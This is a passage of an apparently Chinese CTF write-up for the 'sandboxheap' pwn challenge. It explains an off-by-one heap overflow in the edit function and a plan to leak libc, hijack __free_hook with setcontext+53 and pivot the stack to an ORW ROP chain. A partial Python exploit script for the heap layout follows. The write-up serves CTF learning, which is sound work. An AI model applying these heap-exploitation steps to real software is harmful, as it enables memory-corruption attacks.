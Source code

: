 # sandboxheap
### 程序分析
此题保护全开，还开了沙箱保护，只能通过ROW getflag  
有show函数，有问题的地方是edit函数，存在off by one漏洞。  
![](./pics/add.png)  
![](./pics/edit.png)  
![](./pics/ineidt.png)  
由于多读了一字节，可以覆盖下一个chunk的preinuse位。  

### 思路分析
决定使用unsortedbin unlink泄露libc地址、堆地址，得到free_hook地址，在free_hook处写下setcontext+53地址,，这样能在调用free时更改寄存器（rbp，rip）的值，用栈迁移劫持程序运行堆上布置好的orw rop链。  

```
for i in range(7):
    add(i, 0x88)  
add(7, 0x88)
add(8, 0x88)
add(9, 0x88)
add(14,0x190)#打算放orw rop，使程序栈迁移到它
add(15,0x190)#打算放SigreturnFrame，改变freehook为setcontext+53后free它就能更改寄存器的值
add(10, 0x10)
for i in range(8):
    free(i)
overedit(8, b'1' * 0x80 + p64(0x120) , 0)
free(9)
add(11, 0x98)
add(12, 0x78)
```